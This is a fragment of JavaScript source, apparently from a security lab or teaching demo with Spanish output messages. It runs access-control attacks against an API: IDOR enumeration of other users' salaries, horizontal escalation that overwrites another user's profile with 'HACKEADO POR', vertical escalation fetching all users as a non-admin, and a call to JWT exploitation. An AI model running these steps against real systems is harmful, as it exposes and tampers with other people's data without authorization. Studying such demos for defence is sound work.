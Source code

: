 ```javascript
    // 6. JWT Exploitation
    await this.demonstrateJWTExploitation();
    
    console.log("═══════════════════════════════════════════════════════════════");
    console.log("🏁 DEMOSTRACIÓN COMPLETA FINALIZADA");
  },
  
  async demonstrateIDOR() {
    console.log("\n🔍 1. DEMOSTRANDO IDOR (Insecure Direct Object Reference)");
    console.log("───────────────────────────────────────────────────────────────");
    
    const currentUser = api.decodeCurrentToken();
    console.log(`👤 Usuario actual: ${currentUser?.username} (ID: ${currentUser?.id})`);
    
    for (let i = 1; i <= 4; i++) {
      try {
        const user = await api.getUserById(i);
        console.log(`✅ Acceso exitoso a usuario ${i}: ${user.profile?.fullName} - Salario: $${user.profile?.salary}`);
      } catch (error) {
        console.log(`❌ Error accediendo a usuario ${i}: ${error.message}`);
      }
    }
  },
  
  async demonstrateHorizontalEscalation() {
    console.log("\n↔️ 2. DEMOSTRANDO ESCALADA HORIZONTAL");
    console.log("───────────────────────────────────────────────────────────────");
    
    const currentUser = api.decodeCurrentToken();
    const targetId = currentUser?.id === 2 ? 3 : 2; // Atacar a otro usuario
    
    try {
      const originalUser = await api.getUserById(targetId);
      console.log(`🎯 Usuario objetivo: ${originalUser.profile?.fullName}`);
      
      await api.updateUser(targetId, {
        fullName: "HACKEADO POR " + currentUser?.username,
        department: "DEPARTAMENTO COMPROMETIDO"
      });
      
      const modifiedUser = await api.getUserById(targetId);
      console.log(`✅ Usuario modificado exitosamente: ${modifiedUser.profile?.fullName}`);
      
    } catch (error) {
      console.log(`❌ Error en escalada horizontal: ${error.message}`);
    }
  },
  
  async demonstrateVerticalEscalation() {
    console.log("\n⬆️ 3. DEMOSTRANDO ESCALADA VERTICAL");
    console.log("───────────────────────────────────────────────────────────────");
    
    const currentUser = api.decodeCurrentToken();
    console.log(`👤 Intentando acceso admin desde: ${currentUser?.username} (Rol: ${currentUser?.role})`);
    
    try {
      const allUsers = await api.getAllUsers();
      console.log(`✅ ¡ACCESO ADMINISTRATIVO EXITOSO! Obtenidos ${allUsers.length} usuarios:`);
      
      allUsers.forEach(user => {
```